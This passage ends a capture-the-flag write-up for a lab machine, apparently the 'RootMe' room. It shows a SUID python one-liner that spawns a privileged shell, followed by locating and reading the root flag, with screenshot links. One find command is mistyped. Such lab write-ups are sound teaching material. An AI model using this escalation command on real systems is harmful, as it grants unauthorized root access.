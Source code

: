 `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

But in order to be able to execute we must first move to the directory that python is located. So `cd /usr/bin/` and now we can run the command.

**Success**

<img src="Media/Root_me/root_11.jpg" height=50% width=50%>

## root.txt

Now again with the find command we should try to locate the root.txt
`fin / root.txt |grep root.txt`

<img src="Media/Root_me/root_12.jpg" height=50% width=50%>

Finally with `cat /root/root.txt` we get the flag!

<img src="Media/Root_me/root_13.jpg" height=50% width=50%>

**I hope you had enjoyed another of my writeups**
 